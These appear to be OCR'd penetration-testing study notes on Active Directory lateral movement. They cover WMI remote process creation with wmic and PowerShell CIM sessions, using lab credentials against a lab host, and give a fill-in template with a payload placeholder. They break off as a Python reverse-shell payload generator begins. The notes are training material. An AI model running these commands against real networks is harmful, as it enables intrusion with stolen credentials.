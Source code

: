 Lateral Movement in Active Directory


Active Directory Lateral Movement Techniques

WMI and WinRM

Windows Mnagement Instrucmentation, object oriented feature that facilitates task automation

WMI create process: Create method from Win32_Process::comms Remote Procedure Calls over 135 for remote and 19152-65535 for session data

wmic utility, recently deprecated

need credentials of member of the Administrators local group

UAC remote restrictions::does not apply to domain user, so we can go wild

wmic abused for lateral movement via command by specifying target IP after /node: arg and iser after /user: and password after /password:

wmic /node:<IP> /user:<username> /password:<password> process call create "<process name>"
cmd would be intresting

wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
tring to create calculator process with jen user on Files04 server

WMI job returns PID of process and a 0 meaning sucess

-> translating into powershell:
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

we have PSCredential object, we need Common Information Model via New-CimSession

$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options 
$command = 'calc';

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
and now we run with this

$username = '<username>';
$password = '<passowrd>';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName <targetIP> -Credential $credential -SessionOption $Options 
$command = '<payload>';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

python code for bsae64 encoded powershell reverse shell payload generator with escape character encoding:

import sys
import base64
